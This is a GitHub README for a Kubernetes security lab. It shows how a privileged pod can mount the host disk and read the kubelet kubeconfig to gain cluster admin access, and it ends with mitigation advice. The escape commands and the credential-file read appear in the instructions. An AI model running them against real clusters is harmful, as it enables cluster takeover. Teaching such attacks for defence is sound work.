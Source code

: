 # kubernetes-security

Lab to illustrate Kubernetes security concepts

![Kubernetes Security Primitives](https://user-images.githubusercontent.com/3911650/43289132-3a0a1e0e-90e7-11e8-9891-3ec196cbec7b.png)

## Getting Started

Deploy the CloudFormation `infrastructure/cloudformation.json` template. The template creates a user with the following credentials and minimal required permisisons to complete the Lab:

- Username: _student_
- Password: _password_

## Instructions

1. As an example, you will consider container security contexts and illustrate how a poor configuration can allow your cluster to be hijacked. Read through the container security context details:

    ```sh
    kubectl explain pod.spec.containers.securityContext
    ```

1. Create a pod with priviliged access:

    ```sh
    cat <<EOF | kubectl create -f -
    apiVersion: v1
    kind: Pod
    metadata:
      name: security-context-example
      namespace: test
    spec:
      containers:
      - image: busybox
        name: busybox
        args:
        - sleep
        - "3600"
        securityContext:
          privileged: true
    EOF
    ```

1. Open a shell in the pod:

    ```sh
    kubectl exec -n test security-context-example -it -- /bin/sh
    ```

1. Mount the host's hard drive and read the kubelet kubeconfig file that is created during cluster initialization:

    ```sh
    mkdir /hostfs
    mount /dev/xvda1 /hostfs
    cat /hostfs/etc/kubernetes/kubelet.conf
    ```

    The kubeconfig file can be used to gain admin access to the Kubernetes cluster. Be careful with the containers you give privileged access to. Consider using a [__PodSecurityPolicy__](https://kubernetes.io/docs/concepts/policy/pod-security-policy/) to lock down container privileges. Also, use [__Linux Capabilities__](https://kubernetes.io/docs/tasks/configure-pod-container/security-context/#set-capabilities-for-a-container) instead of full-blown root access with privileged to limit access when extra capablities are required.

## Cleaning Up

Delete the CloudFormation stack to remove all the resources used in the Lab.